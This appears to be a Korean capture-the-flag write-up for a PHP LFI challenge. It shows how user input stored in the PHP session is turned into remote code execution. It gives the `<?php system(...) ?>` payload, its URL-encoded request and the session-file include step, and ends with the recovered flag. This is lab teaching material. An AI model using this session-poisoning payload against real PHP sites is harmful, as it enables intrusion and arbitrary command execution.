

# 21. LFI_02

## 문제 설명
문서 뷰어 v2. `?p=`로 임의 파일을 include하는 LFI가 있으며, flag는 `/readflag`
실행으로만 얻을 수 있다. 핵심은 입력값이 세션에 저장된다는 점이다.

```php
session_start();
else { $_SESSION["p"] = $_GET["p"]; include $_GET["p"]; }   // LFI + 입력을 세션에 저장
```

## 분석
`$_SESSION["p"] = $_GET["p"]`로 사용자 입력이 서버의 세션 파일이다.
(`/tmp/sess_<PHPSESSID>`)에 그대로 기록된다. 따라서 `p`에 PHP 코드를 넣어 세션 파일에
심은 뒤, 그 세션 파일을 LFI로 include하면 코드가 실행되어 RCE가 된다.

## 익스플로잇

### 1) PHP 코드를 세션에 심기
```
/?p=<?php system('/readflag'); ?>
```
URL 인코딩:
```
http://edu.arang.kr:9205/?p=%3C%3Fphp%20system(%27/readflag%27);%20%3F%3E
```
include는 실패하지만, `$_SESSION["p"]`에 위 PHP 코드가 저장된다.

### 2) 세션 파일을 include
`PHPSESSID` 쿠키 값으로 세션 파일 경로를 만들어 include한다.
```
http://edu.arang.kr:9205/?p=/tmp/sess_<PHPSESSID>
```
세션 파일 안의 `<?php system('/readflag'); ?>`가 실행되어 flag가 출력된다.



## 플래그
```
flag{70be50b60b9d25d1f86a}
```
